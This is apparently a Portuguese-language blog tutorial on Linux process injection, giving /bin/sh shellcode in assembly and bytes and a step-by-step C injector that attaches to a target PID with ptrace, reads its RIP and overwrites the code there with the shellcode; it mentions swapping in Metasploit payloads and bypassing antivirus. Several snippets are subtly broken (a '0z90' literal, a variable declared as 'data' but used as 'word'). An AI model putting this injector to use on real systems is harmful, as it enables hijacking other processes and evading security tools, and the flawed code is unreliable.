

Author: hoWoDate: 2025-10-06
Process Injection no Linux usando a biblioteca PTRACE
Neste artigo, vamos aprender sobre injeção de processos (Process Injection) em distribuições linux usando PTRACE
Shellcode
Primeiramente, precisamos de um shellcode, neste estudo eu irei utilizar o meu (disponível no meu github).
Para facilitar a compreensão, deixarei o shellcode (em asm) aqui:
section .text
global _start
_start:
xor rax, rax ; rax turns to null byte
push rax ; push \0 (null byte) to the stack
mov rbx, 0x68732f6e69622f ; '/bin/sh' string
push rbx
mov rdi, rsp ; rdi (path) receive rbx ('/bin/sh\0')
push rax ; null byte (execve require {path, NULL})
push rdi ; ptr to our path
mov rsi, rsp ; rsi (argv) receive
xor rdx, rdx
mov rax, 59
syscallE sua versão em C:
unsigned char shellcode[] = {
0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};
O .asm já foi documentado em seu próprio repositório, então não iremos perder tempo analisando o mesmo.
O injector
Começaremos incluindo tudo que vamos precisar:
#include <stdio.h> // printf
#include <stdlib.h> // NULL
#include <unistd.h> // getpid e qualquer outra coisa
#include <errno.h> // erros
#include <sys/ptrace.h> // a biblioteca ptrace
#include <sys/wait.h> // waitpid
#include <sys/user.h> // type user_regs_struct
#include <sys/types.h> // pid_t
E inserir nosso shellcode:
unsigned char shellcode[] = {
0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};
size_t shellcodeLen = sizeof(shellcode);Após isso, nós já podemos iniciar a função principal (se você quiser, nada te impede de criar uma função para fazer a injeção, mas para facilitar o entendimento, faremos tudo na main):
int main(int argc, char *argv[])O parâmetro argc conta a quantidade de
argumentos passados na hora de executar o programa, e
o argv é um array de strings que contém
os argumentos (o primeiro argumento sempre será o nome
do programa).
Parse do PID inserido pelo usuário
Para parsear o PID, precisamos verificar se o usuário inseriu o PID corretamente:
if (argc != 2) { // Se argc for menos de 2 args (primeiro é o caminho do binário)
printf("Usage: %s <pid>\n", argv[0]); // Printa o jeito correto de utilizar
return 1; // Retorna 1 (shell interpreta como um erro)
}
pid_t procID = (pid_t)atoi(argv[1]); // Atoi converte argv[1] para int, e depois fazemos cast para pid_t (atoi é inseguro, o ideal é usar strtol)
if (procID <= 0) { // Se o PID for inválido
fprintf(stderr, "Invalid PID\n", argv[1]); // Print o erro
return 1; // Retorna 1 (erro)
}Após isso nós já temos o PID do processo que iremos injetar o shellcode, se você quiser, pode verificar se o processo realmente existe.
Anexando ao processo alvo com PTRACE_ATTACH
Após validar o PID, precisamos anexar ao processo
alvo.
Anexar um processo pode pedir permissões de root, este artigo explica como você pode verificar isso.
// Anexa ao processo se baseando no PID e verifica por erros (retorno -1 é um erro)
if (ptrace(PTRACE_ATTACH, procID, NULL, NULL) == -1) {
perror("Can't attach"); // perror printa algo como: "Can't attach: uau, eu sou a mensagem de erro"
return 1; // Encerra o programa
}Aguardando o processo
Agora, precisamos parar o processo alvo, se não, nós não poderemos sobreescrever o RIP do processo.
Nós podemos pará-lo usando waitpid e argumentos:
PID, int *status.
// Espera o processo parar
int status;
if (waitpid(procID, &status, 0) == -1) { // Este 0 pode ser NULL também
perror("Can't wait for the target");
goto detach; // Vai para o label detach se algum erro ocorrer
}E verificamos se tudo está bem:
// Verifica se o processo parou com sucesso
if (!WIFSTOPPED(status)) { // WIFSTOPPED expande para (((status) & 0xff) == 0x7f) e verifica se o processo parou
fprintf(stderr, "Target did not stop as expected\n");
goto detach;
}Obtendo os registradores do processo e seu RIP
Se você não sabe o que são os registradores, você pode ler este artigo
Agora, o processo já está parado, então podemos obter algumas informações:
// Obtém os registradores do processo
struct user_regs_struct regs; // Struct que irá armazenar os registradores
if (ptrace(PTRACE_GETREGS, procID, NULL, ®s) == -1) { // Usa PTRACE_GETREGS com os args procID, NULL, ®s para obter os registradores do processo
perror("Can't get target regs");
goto detach;
}Agora, já temos todos os registradores, mas precisamos obter o RIP, e é mais fácil do que obter os registradores:
unsigned long address = regs.rip; // Apenas obtém o rip da struct regs
printf("Target RIP: 0x%llx\n", (unsigned long long)address); // Loga o RIPSobreescrevendo o RIP
Agora, já podemos sobreescrever o RIP para inserir nosso shellcode malicioso (neste caso, apenas abre o /bin/sh, mas você pode usar um shellcode do metasploit por exemplo):
size_t wordSize = sizeof(unsigned long); // Usa sizeof porque algumas arquiteturas de CPU são diferentes de 8
size_t nWords = (shellcodeLen + wordSize - 1) / wordSize; // Calcula a quantidade de palavras que precisamos escrever (arredonda para cima)
for (size_t i = 0; i < nWords; i++) { // Loop para cada palavra
unsigned long data = 0; // Palavra atual
size_t base = i * wordSize; // Base é o índice inicial da palavra atual
// For loop que escreve a palavra byte-a-byte
for (size_t ii = 0; ii < wordSize; ii++) {
size_t idx = base + ii; // Índice atual
unsigned char byte = (idx < shellcodeLen) ? shellcode[idx] : 0z90; // Se o índice for menor que o tamanho do shellcode, obtém o byte do shellcode, senão, obtém 0x90
word |= ((unsigned long)byte << (8 * ii)); // Adiciona o byte à palavra (shiftando para a posição correta)
}
/*
POKETEXT escreve uma palavra no endereço do processo.
No nosso caso, usamos para escrever nossa palavra em address + base (rip + offset atual)
*/
if (ptrace(PTRACE_POKETEXT, procID, (void*)(address + base), (void*)word) == -1) {
perror("Some error occurred in POKETEXT");
goto detach;
}
printf("Wrote 0x%lx --> 0x%llx\n", word, (unsigned long long)(address + base)); // Log
}Se você não sabe o que é uma word, leia esse artigo
Se você não sabe o que é byte order, leia esse artigo
Se você não sabe o que << faz, leia esse artigo
Inejeção concluída! Agora só precisamos desanexar o processo e nos divertir com nossa shell!
Desanexando o processo
Para este passo final, só precisamos desanexar:
if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) { // Bem simples, eu acho que não precisamos explicar isso
perror("Can't detach target");
return 1;
}Tratamento de erros
Se você realmente leu este artigo, você viu
goto detach algumas vezes, e aqui está o
label detach:
detach:
if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) {
perror("Can't detach target");
}
return 1;Conclusão
Injeção de processos é um tópico muito interessante, e pode ser usado de diversas formas, por exemplo, bypassar alguns AVs ou fazer um processo rodar algo que ele não deveria.

Artigo por @hoWo
Você pode encontrar a versão original deste artigo em inglês aqui